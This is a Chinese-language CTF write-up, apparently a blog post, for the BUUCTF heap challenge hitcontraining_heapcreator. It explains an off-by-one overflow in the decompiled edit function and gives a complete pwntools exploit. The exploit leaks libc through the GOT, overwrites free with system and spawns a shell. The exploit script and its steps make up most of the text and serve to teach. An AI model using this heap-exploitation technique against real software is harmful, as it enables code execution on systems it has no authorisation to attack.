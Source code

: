 ```yaml
---
title: 'hitcontraining_heapcreator'
date: 2024-04-26 13:00:00 +0800
categories: [uaf,off_by_one,heapoverflow]
tags: [ctf,pwn]
---
```

 [[BUUCTF](https://buuoj.cn/challenges#hitcontraining_heapcreator)]hitcontraining_heapcreator

`UAF`|`Off-By-One`|`堆溢出`

对应`libc`版本`libc6_2.23-0ubuntu9_amd64`

```shell
[*] '/home/bamuwe/heapcreator/heapcreator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fc000)
```

```shell
bamuwe@bamuwe:~/heapcreator$ ./heapcreator
--------------------------------
          Heap Creator
--------------------------------
 1. Create a Heap
 2. Edit a Heap
 3. Show a Heap
 4. Delete a Heap
 5. Exit
--------------------------------
Your choice :
```

```c
unsigned __int64 edit_heap()
{
  int v1; // [rsp+Ch] [rbp-14h]
  char buf[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 >= 0xA )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&heaparray + v1) )
  {
    printf("Content of heap : ");
    read_input(*(*(&heaparray + v1) + 1), **(&heaparray + v1) + 1LL);	//漏洞点
    puts("Done !");
  }
  else
  {
    puts("No such heap !");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
> 漏洞函数
```python
def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))
```

> 交互函数

思路：

通过`off-by-one`构造`fakechunk`,利用`fakechunk`泄露`libc`，更换`free()`地址为`system()`，得到`shell`

```python
add(0x18,b'0000')   		#0
add(0x10,b'1111')   		#1
add(0x10,b'2222')   		#2
add(0x10,b'/bin/sh\x00')    #3
edit(0,b'A'*0x18+p8(129))
```

![image-20240426165211798](../assets/img/old_imgs/image-20240426165211798.png)

> 运行后截图

可以发现已经溢出了一字节`（0x81）`，将这个`chunk1`释放，再申请回来就能够通过这个`chunk1`编辑其他`chunk`的内容

```python
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
```

![image-20240426170324709](../assets/img/old_imgs/image-20240426170324709.png)

> 运行后截图

![image-20240426170524597](../assets/img/old_imgs/image-20240426170524597.png)

对比可以更改了原来的`BK`伪造出`fake_chunk`，即此时的`chun2`已经是`free()`的地址

![image-20240426171126423](../assets/img/old_imgs/image-20240426171126423.png)

继续计算出`system()`的值并且替换`free()`

```python
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
```

![image-20240426171632077](../assets/img/old_imgs/image-20240426171632077.png)

> 测试用多打印一次`chunk2`的内容

再`free(3)`就能构造出`system(/bin/sh)`得到`shell`

exp:

```python
from pwn import *
# context.log_level = 'debug'
io = gdb.debug('./heapcreator')
elf = ELF('./heapcreator')
lib = ELF('#####')

def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))

add(0x18,b'0000')   #chunk0
add(0x10,b'1111')   #chunk1
add(0x10,b'2222')   #chunk2/fake_chunk
add(0x10,b'/bin/sh\x00')    #chunk3

edit(0,b'A'*0x18+p8(129))
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
free(3)
io.interactive()
```

tips:

关于`libc_base`计算小技巧

```python
success(hex(free_addr))
libc_base = free_addr-0x83a70	#0x83a70从何而来？
```

![image-20240426172143920](../assets/img/old_imgs/image-20240426172143920.png)

